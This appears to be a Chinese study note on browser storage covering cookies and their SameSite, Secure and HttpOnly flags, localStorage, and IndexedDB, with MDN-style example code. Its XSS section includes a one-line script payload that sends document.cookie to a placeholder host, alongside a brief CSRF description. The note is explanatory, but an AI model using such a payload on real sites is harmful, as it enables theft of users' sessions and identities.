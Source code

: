 
# cookie
目的： 用于识别用户身份。  
特点： 
* 4kb
* 发请求自动带上
原理： 服务器返回setsCookie时，浏览器会记住cookie, 浏览器发送请求，cookie会被携带给服务器。  
Cookie 执行同源策略，同一个 host 下的不同端口可以互相访问 Cookie。a与b只能访问自己的cookie，在a中内嵌c网页，并获取c的cookie，此时c cookie是a的第三方cookie。
** Chrome 更新 80后， SameSite 为`Lax`， 仅允许同站或者子站访问Cookie, 跨站（内嵌c无法访问cookie）需要SameSite `None` **
Secure：只允许Https setCookie
HttpOnly： 不允许JS访问ducoment.cookie， 只能由服务器setsCookie
```
Set-Cookie: userId=123; SameSite=None; Secure; HttpOnly
```
应用： 多用于广告服务。a通过内嵌网页向c发送请求，c返回cookie；b通过内嵌网页向c发送请求，并携带cookie，c获知用户身份，按喜好投放广告。 
缺点： 
XSS攻击： 跨站脚本攻击， 利用用户对网页的信任。不设置HttpOnly，则用户能上传恶意代码，如： `<script>window.open("举个栗子.com?cookie=" + document.cookie</script>`，获取他人的cookie与身份。
CSRF(Cross-site request forgery): 跨站请求伪造，需要诱导点击，利用<form>跨域发请求，携带cookie，完成非意愿的操作。

# storage
目的：弥补cookie太小
特点：
* 10MB
* 使用 Key-Value 形式储存， 只能存字符串。
* 需要调用setItem, getItem, removeItem, clear。
* 增删改查为同步。

# IndexedDB
目的：弥补storage只能存字符串
特点：
* 空间无限制。
* 能存对象，数字等。
* 增删改查都是异步。
[文档] (https://developer.mozilla.org/zh-CN/docs/Web/API/IndexedDB_API/Using_IndexedDB)

IndexedDB 鼓励使用的基本模式如下所示：

```

1. 打开数据库。
2. 在数据库中创建一个对象仓库（object store）。
3. 启动一个事务，并发送一个请求来执行一些数据库操作，像增加或提取数据等。
4. 通过监听正确类型的 DOM 事件以等待操作完成。
5. 在操作结果上进行一些操作


const dbName = "the_name";

var request = indexedDB.open(dbName, 2);

request.onerror = function(event) {
  // 错误处理
};
request.onsuccess = function(event) {
// 成功
  console.log(event.target.result)
};

// 当你创建一个新的数据库或者增加已存在的数据库的版本号（当打开数据库时，指定一个比之前更大的版本号）， onupgradeneeded 事件会被触发, onupgradeneeded 是我们唯一可以修改数据库结构的地方。
request.onupgradeneeded = function(event) {
  var db = event.target.result;

  // 建立一个对象仓库来存储我们客户的相关信息，我们选择 ssn 作为键路径（key path）
  // 因为 ssn 可以保证是不重复的
  // autoIncrement 自增
  var objectStore = db.createObjectStore("customers", { keyPath: "ssn", autoIncrement : true });

  // 建立一个索引来通过姓名来搜索客户。名字可能会重复，所以我们不能使用 unique 索引
  objectStore.createIndex("name", "name", { unique: false });

  // 使用邮箱建立索引，我们向确保客户的邮箱不会重复，所以我们使用 unique 索引
  objectStore.createIndex("email", "email", { unique: true });

  // 使用事务的 oncomplete 事件确保在插入数据前对象仓库已经创建完毕
  objectStore.transaction.oncomplete = function(event) {
    // 将数据保存到新创建的对象仓库
    var customerObjectStore = db.transaction("customers", "readwrite").objectStore("customers");
    // 增
    customerData.forEach(function(customer) {
      let add = customerObjectStore.add(customer);
      add.onsuccess = () => {}
      add.onerror = () => {} 
    });
    // 改
    let put = customerObjectStore.put(data)
    put.onsuccess = () => {}
    put.onerror = () => {} 
    // 删
    let remove = customerObjectStore.delete("444-44-4444")
    remove.onsuccess = () => {}
    remove.onerror = () => {} 
    // 查
    let get = customerObjectStore.get("444-44-4444")
    get.onsuccess = () => {}
    get.onerror = () => {} 
  };
};

```
